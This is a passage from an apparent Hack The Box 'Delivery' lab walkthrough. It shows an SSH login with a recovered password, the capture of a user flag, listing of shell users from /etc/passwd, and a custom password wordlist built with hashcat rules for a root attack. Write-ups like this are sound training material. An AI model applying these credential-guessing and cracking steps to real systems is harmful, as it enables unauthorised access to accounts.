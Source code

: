 ```bash
sshpass -p 'Youve_G0t_Mail!' ssh -o "StrictHostKeyChecking no" maildeliverer@delivery.htb
```

```bash
maildeliverer@Delivery:~$ id
uid=1000(maildeliverer) gid=1000(maildeliverer) groups=1000(maildeliverer)
maildeliverer@Delivery:~$ cat user.txt
37b62137cd4bbbe0fb17256660ed00bb
```

# Root Flag
---

## Use hashcat rules to create custom wordlist

According to `root`, seems like they are using credentials that is related to : `PleaseSubscribe!`

![](/assets/obsidian/e07e41a3eba57a7cec743ba42ac4f8e7.png)

Generate a custom wordlist based on the string via **hashcat** rules

Get users

```bash
maildeliverer@Delivery:~$ cat /etc/passwd|grep sh$
root:x:0:0:root:/root:/bin/bash
maildeliverer:x:1000:1000:MailDeliverer,,,:/home/maildeliverer:/bin/bash
mattermost:x:998:998::/home/mattermost:/bin/sh
```

Write the keywords to for the rule

```bash
┌──(bravosec㉿fsociety)-[~/htb/Delivery]
└─$ echo 'PleaseSubscribe!' > keywords.txt
```

Generate wordlist with `best64.rule` (Others will be too large)

```bash
┌──(bravosec㉿fsociety)-[~/htb/Delivery]
└─$ hashcat --force --stdout keywords.txt -r /usr/share/hashcat/rules/best64.rule > passwords_best64.txt
```

> **Best rule : **OneRuleToRuleThemAll** (2023 Updated)**
> > https://github.com/stealthsploit/OneRuleToRuleThemStill
{: .prompt-tip }
